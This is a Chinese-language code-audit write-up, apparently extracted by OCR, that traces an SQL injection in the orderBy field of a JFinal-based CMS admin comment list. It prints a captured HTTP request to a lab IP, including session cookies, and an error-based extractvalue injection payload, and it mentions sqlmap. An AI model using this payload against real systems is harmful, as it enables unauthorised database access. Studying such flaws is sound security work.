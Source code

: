 这⾥存在list⽅法，然后存在sql查询，在下⾯使⽤了排序，字段为orderBy，进⼊循环，判断是否为空，为空就desc排序，不为空就使⽤传⼊的orderBy。跟踪getBaseForm⽅法

src/main/java/com/jflyfox/jfinal/base/BaseController.java  

![]()

这⾥是从表单中获取数据，跟进BaseForm，直接是set/get⽅法  

![]()

这⾥都不存在过滤，就直接带⼊查询。

  *   *   * 

    
    
    Page<TbComment> page = TbComment.dao.paginate(getPaginator(), "select t.*,a.titlearticleName ", //sql.toString().toString());

到web⻚⾯，找到对应的功能点，抓包  

http://192.168.77.118:8080/admin/comment/list  

![]()

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /admin/comment/list HTTP/1.1Host: 192.168.77.118:8080Content-Length: 116Cache-Control: max-age=0Upgrade-Insecure-Requests: 1Origin: http://192.168.77.118:8080Content-Type: application/x-www-form-urlencodedUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML,like Gecko) Chrome/115.0.0.0 Safari/537.36 Edg/115.0.1901.188Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7Referer: http://192.168.77.118:8080/admin/comment/listAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6Cookie: __bid_n=18866ec09d3faa66704207;FPTOKEN=1sfkbcdKDKq8tYJyKF8p/zVQPOubQ2ZW09T4Rk33AdOU1X6PHpEodJlS6J1FDi4ze/ouYaESS8/CElbolPexQVCPJLpUfXPHcfD1F5PxyoMyLPXlylxgyY8ksfwJ+HlBry8yjh8omid4cza0BTP0OojKxWvHJnICglbwl8bDxhL1AqCctc3y+Fhaxqot+8YtE0N/E4twEH/e2b0b6mfj3ubDAUR5oHjv4Ru0y0xYuGyy4S7+mXfsSGnQttZoDdAJPDyQvPME8z6zeuNwgCeUZjMiIbreWNpqzOwmtD5ATOoHVGkIov46bHTGTwnxPLz5gMJCf9RVTQNxrHspB02q3s2gAbIiuVcToexKJRAScm50q9Nk8qALwvxowlGx85zkGXbuCWhee4aCSmASLa6zxPDJXnE14LfSqR0YCumsBqxCrqE6M5jfhOfpXOdTK4aX|os4ROPgKWbRa3JrCwzTGPHk4Jlxke2f5EcxPk801K0o=|10|9e5191bdc892d0e17589844cc5900255; JSESSIONID=55335530E57F0801AB3A190FA2BD711A;Hm_lvt_1040d081eea13b44d84a4af639640d51=1690769930;session_user=wgPmpe3hEuJWIL+I+kHtxqag1wutWsMhm6eaAgoJH0c=;Hm_lpvt_1040d081eea13b44d84a4af639640d51=1690769940Connection: closeform.orderColumn=&form.orderAsc=&attr.article_id=3001&attr.content=111&totalRecords=3&pageNo=1&pageSize=20&length=10  
    

payload  

  * 

    
    
    '0+and+(extractvalue(1,concat(0x7e,(select+user()),0x7e)))%23

![]()

Sqlmap 查询数据  
